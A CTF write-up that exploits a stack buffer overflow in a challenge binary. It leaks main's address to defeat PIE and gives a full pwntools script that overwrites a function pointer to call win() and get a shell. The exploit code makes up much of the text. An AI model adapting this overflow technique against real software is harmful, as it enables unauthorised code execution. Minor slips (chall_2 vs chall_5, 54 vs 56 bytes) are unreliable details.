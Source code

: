 # Disclaimer
This problem is almost completely identical to speedrun4, but I will include most of my writeup from that challenge as it is applicable here.

# Reconnaissance
## C Review
First we look into the provided c file. At a glance, the `main` function seems to be secure with the `fgets()` function properly limiting input to avoid overwriting the `sample` buffer. But the bottom of main calls `vuln()` function, which sounds interesting.

`vuln()` has a 50 byte buffer which it writes with `gets`, which means this is our attack vector. We will be overflowing the buffer to change the volatile int (pointer) and call another function--`win` since it spawns a shell! It is also notable that the `vuln()` function now prints something: 
```{c++}
printf("Harder, better, faster, stronger: %p\n", main);
```
That `%p` format specifier indicates an pointer address, so this is leaking the address of the main function! This will come up later.

## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_2

>Arch:     amd64-64-little  
>RELRO:    Partial RELRO  
>Stack:    No canary found  
>NX:       NX enabled  
>PIE:      PIE enabled

Notably, stack canary is disabled, but this time PIE is enabled. Oh no! Because PIE is enabled we can't know the exact address of the `win()` function when we want to call it, we only know it's offset from the program's base address. Luckily as we noted above, the program is leaking the address of `main()`, so we can use this to find the base address of the program. We also note that the architecture is 64-bit, which means that our address to the `win()` function will need to be 64-bit (8 bytes).

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function. 
![Ghidra Vuln Function Image](writeUpFiles/ghidra1.png)  
It looks like despite the C file containing two buffers (`buf0` and `buf1`) only one is present here. Additionally, by looking at the positions of the two variables `local_10` and `local_48` on the stack, we see that `local_48` takes up 0x38 bytes (0x48-0x10) which amounts to a 56 byte buffer. Then, `local_10` is our pointer `volatile int (*ptr)()`, which we can tell because it is called later in the function.

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_5")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

win_address_offset = EXE.symbols['win']
main_address_offset = EXE.symbols['main']

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13375)
	return r
```
Here we are doing a couple of things. We are importing the `pwn` library to use as our primary tool for both working on the local file and the challenge server. Then, we use `pwn`'s `ELF` module to put the executable into a variable `EXE`. Then we set up a few things for `pwn`, most importantly `context.log_level = "DEBUG"` because this will give us verbose information about what we send and recieve with `pwn`. Finally, we use one of `pwn`'s features to find the address offsets of the `win()` and `main()` functions. Because PIE is enabled, these are not the absolute address of the functions, they are relative offsets from the program's base pointer.  

The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling this function with `True` as a parameter connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we connect and read the leaked memory address.
```{python}
io = conn(False)
# Wait for the process to send "One more time" and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Wait for the process to send "Harder, better, faster, stronger: " then read the leaked address of main
# which is next on the same line.
io.recvuntil(b"Harder, better, faster, stronger: ")
data = io.recvline()[:-1] # ignore the last character of the input, which is a newline character
leaked_main_address = (int(data, 16))

# Now we use the leaked address to find the base address of the program, and use that to calculate the address of win
base_address = leaked_main_address - main_address_offset
win_address = base_address + win_address_offset
```
Here we are reading the output of the executable to get the leaked address of `main()`. We convert this to an integer so we can do math with it with the `int(x, 16)` call, using 16 to specify that the `data` variable is an integer represented in base 16. Then we find the base address of the program and calculate a value for `win_address`.

Finally, we craft and send our payload:
```{python}
# Create a payload with an offset of 54 bytes then the address win(), send it, and open an 
# interactive terminal -- The system is 64 bit so we need a 64 bit pointer to the address of win()
payload = b'a'*56
payload += p64(win_address)+b'\n'
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!